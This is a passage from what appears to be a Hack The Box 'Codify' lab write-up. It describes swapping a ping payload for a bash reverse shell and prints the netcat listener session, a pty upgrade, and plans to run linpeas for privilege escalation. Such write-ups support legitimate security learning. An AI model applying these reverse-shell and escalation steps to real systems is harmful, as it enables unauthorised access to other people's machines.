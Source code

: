 ```bash
21:44:10.172482 IP kracken.60672 > 239.255.255.250.1900: UDP, length 167
21:44:11.173999 IP kracken.60672 > 239.255.255.250.1900: UDP, length 167
^C
24 packets captured
24 packets received by filter
0 packets dropped by kernel
```

Now that we confirmed that we can get code execution on the target, let us see if we can get a reverse shell established.

I swapped out the ping command with a bash reverse shell and was able to get reverse shell:

![reverse-shell](/assets/images/machines/htb/codify/reverse-shell.png)

```bash
──(h0ax㉿kracken)-[~/htb/boxes/easy/codify]
└─$ nc-htb
listening on [any] 9999 ...
connect to [10.10.16.2] from (UNKNOWN) [10.129.39.118] 35652
bash: cannot set terminal process group (1242): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$
```

Now that we have a shell on the box let's upload linpeas.

After running linpeas, I can see we have another user account. This is the account we need to elevate our privleges to, to get the first flag. I saw a script at __/opt/scripts/mysql-backup.sh__, this looked interesting but I was not able to get any credentials from it. I saw that the box had a mysql instance running on a docker container too. I could not find away to get access to it though.
